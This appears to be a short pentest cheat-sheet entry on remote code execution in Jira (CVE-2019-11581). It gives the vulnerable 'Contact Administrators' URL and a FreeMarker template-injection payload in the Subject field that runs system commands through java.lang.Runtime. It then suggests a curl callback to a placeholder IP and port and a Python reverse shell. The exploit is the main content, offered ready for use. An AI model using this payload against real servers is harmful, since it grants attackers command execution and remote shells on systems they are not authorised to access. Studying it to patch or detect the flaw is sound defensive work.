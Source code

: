 RCE in Jira (CVE-2019–11581)
===========================

The "contact Admin" functinality is accessible on this URL:
```
https://jiraserver/secure/ContactAdministrators!default.jspa
```

The `Subject` field is vulnerable to [Template-Injection](https://portswigger.net/research/server-side-template-injection) (freemarker):
```java
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('cmd').waitFor()
```

For example, the command can be:

 - `curl http://<ip>:<port>/` to test if the serveur can make an HTTP request outside
 - `python -c ''` to execute commands such as a [reverse-shell](../reverse-shell.md)
